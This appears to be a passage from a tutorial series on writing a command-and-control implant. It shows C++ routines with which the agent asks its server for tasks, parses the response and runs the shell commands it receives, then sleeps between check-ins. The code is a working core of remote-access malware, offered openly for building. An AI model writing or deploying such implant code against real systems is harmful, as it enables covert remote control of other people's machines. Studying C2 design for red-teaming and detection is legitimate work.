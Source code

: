 # Implementing our first command

Now that our agent has the ability to check in, we need it to ACTUALLY DO stuff. For that, we need it to :
- Get the tasks it needs to do ;
- and do it (surprising, ain't it ?)

## Getting the tasks

### Getting the tasks - Agent side

Before coding, we must think the overall command logic for our agent.

* The agent must ask for commands -> send a "Get Tasking" package ;
* The agent must parse the response to see how many and which commands need to be done -> dispatch commands ;
* The agent must execute the commands -> execute ;
* And take a well deserved nap.

We decided to create a simple command : Shell, which will execute a shell command. We picked a random command ID : 0x54.
The routine we coded looks like this :

{% highlight C++ %}
BOOL routine()
{
    // Asking for new tasks
    PPackage getTask = newPackage(GET_TASKING, TRUE);
    addInt32(getTask, NUMBER_OF_TASKS); // How many tasks are we asking for ?
    Parser* ResponseParser = sendPackage(getTask); // Send the Get Tasking

    commandDispatch(ResponseParser); // Dispatch
    Sleep(3000); // Sleep :)
    return TRUE;
}

BOOL commandDispatch(PParser response)
{
    BYTE typeResponse = getByte(response);
    if (typeResponse == GET_TASKING)
        return handleGetTasking(response); // Response to GetTasking : will contain a command to execute
    return TRUE;
}

BOOL handleGetTasking(PParser getTasking)
{
    UINT32 numTasks = getInt32(getTasking);
    for (UINT32 i = 0; i < numTasks; i++)
    {
        SIZE_T sizeTask = getInt32(getTasking) - 1; // We subtract 1 for the task ID
        BYTE task = getByte(getTasking);
        PBYTE taskBuffer = getBytes(getTasking, &sizeTask);
        PParser taskParser = newParser(taskBuffer, sizeTask);
        if (task == SHELL_CMD) // The task id is the one we expect : run the command
            executeShell(taskParser);
    }
    return TRUE;
}
{% endhighlight %}  
